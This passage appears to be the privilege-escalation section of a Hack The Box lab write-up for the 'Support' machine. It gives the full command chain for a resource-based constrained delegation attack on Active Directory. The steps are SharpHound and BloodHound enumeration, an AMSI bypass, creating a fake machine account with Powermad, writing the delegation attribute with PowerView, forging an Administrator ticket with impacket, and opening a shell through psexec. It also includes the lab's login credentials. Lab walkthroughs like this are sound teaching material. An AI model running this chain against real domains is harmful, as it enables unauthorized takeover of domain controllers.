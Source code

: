 ## Privilege Escalation
Lets first list all information about our current user.
```powershell
whoami /all
```
![](screenshots/Pasted%20image%2020220826224310.png)
We can see that we are a member of the custom group `Shared Support Accounts` so lets proceed by downloading and running `SharpHound`.
```powershell
upload /opt/BloodHound/Collectors/SharpHound.exe
./SharpHound.exe
```
Once complete, we can download the newly created zip file.
```powershell
download C:\ProgramData\20220826204835_BloodHound.zip bh.zip
```
Now lets analyze in BloodHound.
```bash
sudo neo4j console
bloodhound
```
In BloodHound, we can select our user `SUPPORT@SUPPORT.HTB` and marked it as owned. From here we can select `Node Info`, and then `Transitive Object Control` to see what objects we have control over.
![](screenshots/Pasted%20image%2020220827002416.png)
Bloodhound reveals that one of the groups we are a member of (`Shared Support Accounts`) has `GenericAll` over `DC.SUPPORT.HTB` so we can perform a **resource based constrained delegation attack** according to the [BloodHound Wiki](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html).
According to the guide, we will need `Powermad`, so we will restart our `evil-winrm` connection with `Powermad` as an imported script.
```bash
mkdir scripts
cp /opt/Powermad/Powermad.ps1 scripts
evil-winrm -i 10.129.49.99 -u support -p Ironside47pleasure40Watchful -s scripts
```
We then need to initialize `Powermad`.
```powershell
Bypass-4MSI
Powermad.ps1
```
We then are able to make a new fake machine account.
```powershell
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force)
```
![](screenshots/Pasted%20image%2020220827010912.png)
When trying to get the new machine's SID, Get-DomainComputer was not found, so we also need to import `PowerView` and restart our `evil-winrm` connection.
```bash
cp /opt/PowerSploit/Recon/PowerView.ps1 scripts
evil-winrm -i 10.129.49.99 -u support -p Ironside47pleasure40Watchful -s scripts
Bypass-4MSI
Powermad.ps1
PowerView.ps1
```
From here, we can continue with exploitation by retrieving the SID of the new machine.
```powershell
$ComputerSid = Get-DomainComputer FAKE01 -Properties objectsid | Select -Expand objectsid
```
We can then create a raw security descriptor for the `FAKE01` computer principal ([reference](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)).
```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
We can then apply the raw security descriptor to the target machine `dc`.
```powershell
Get-DomainComputer dc | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
![](screenshots/Pasted%20image%2020220827010819.png)
From here, we can use `impacket-getST` to create a Kerberos ticket to authenticate to the machine with as Administrator.
```bash
impacket-getST support.htb/FAKE01:password -dc-ip $ip -impersonate Administrator -spn www/dc.support.htb
```
![](screenshots/Pasted%20image%2020220827011459.png)
We can then use this ticket to authenticate to the box as administrator via `impacket-psexec`.
```bash
export KRB5CCNAME=$PWD/Administrator.ccache
impacket-psexec support.htb/Administrator@dc.support.htb -k -no-pass
```
![](screenshots/Pasted%20image%2020220827011732.png)

---
[proof](proof.md)